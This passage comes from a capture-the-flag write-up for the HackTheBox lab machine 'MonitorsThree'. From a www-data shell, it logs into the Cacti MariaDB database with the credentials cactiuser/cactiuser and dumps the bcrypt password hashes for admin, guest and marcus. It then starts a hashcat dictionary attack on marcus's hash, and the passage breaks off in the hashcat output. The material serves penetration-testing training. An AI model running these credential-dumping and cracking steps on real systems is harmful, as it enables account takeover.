 ```bash
www-data@monitorsthree:~/html/cacti/resource$ ls
ls
index.php  script_queries  script_server  snmp_queries
www-data@monitorsthree:~/html/cacti/resource$ mysql -ucactiuser -pcactiuser
mysql -ucactiuser -pcactiuser
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 217
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+
3 rows in set (0.001 sec)

MariaDB [(none)]> use cacti;
use cacti;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [cacti]> select username,password from user_auth;
select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```
The credential hashes confirms marcus is a system level user

### Shell as marcus
##### Password cracking
```bash
[Jan 17, 2025 - 16:36:53 ] htb monitors3 ➜  hashcat  hashes -a 0 -m 3200  `fzf-wordlists`
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-13th Gen Intel(R) Core(TM) i5-1345U, 14834/29733 MB (4096 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

```